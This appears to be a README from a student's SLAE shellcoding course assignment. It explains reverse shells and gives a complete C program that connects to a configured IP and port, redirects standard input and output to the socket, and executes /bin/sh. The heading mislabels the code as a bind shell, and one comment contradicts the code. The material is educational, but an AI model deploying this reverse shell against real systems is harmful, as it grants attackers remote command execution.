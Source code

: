 # SLAE course
This course can be found here:
[Link to course](https://www.pentesteracademy.com/course?id=3)

## Assignment#2: What to do ?


## First step: create a TCP reverse shell
This shellcode needs to be able to:
* Create a reverse connection to a configured IP and Port
* Execute a shell on successful connection

The second step is to create a script which will make the IP and port configuration easy

### What is a reverse shell
A TCP reverse shell connects back to a remote machine, then executes a shell and redirects all input & output to the socket.

### Example of bind shell TCP in C
```c
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <arpa/inet.h>
#include <sys/socket.h>

int main(int argc, int *argv[])
{
    // Create s for the socket
    int s;
    // Create sockaddr_in struct
    struct sockaddr_in addr;
	
    // AF_INET for IPv4
    addr.sin_family = AF_INET;
    // Set port number to 4444
    addr.sin_port = htons(4444);
    // Listen on any interface
    addr.sin_addr.s_addr = inet_addr("127.1.1.1");

    // Create the sock
    // AF_INET for IPv4
    // SOCK_STREAM for TCP connection
    s = socket(AF_INET, SOCK_STREAM, 0);

    // Connect to the remote machine
    connect(s, (struct sockaddr *)&addr, sizeof(addr));

    // Redirect the STDIN, STDOUT and STDERR into the socket
    for (int i = 0; i < 3; i++)
    {
        dup2(s, i);
    }

    // Execute /bin/sh
    execve("/bin/sh", 0, 0);

    return 0;
}
```
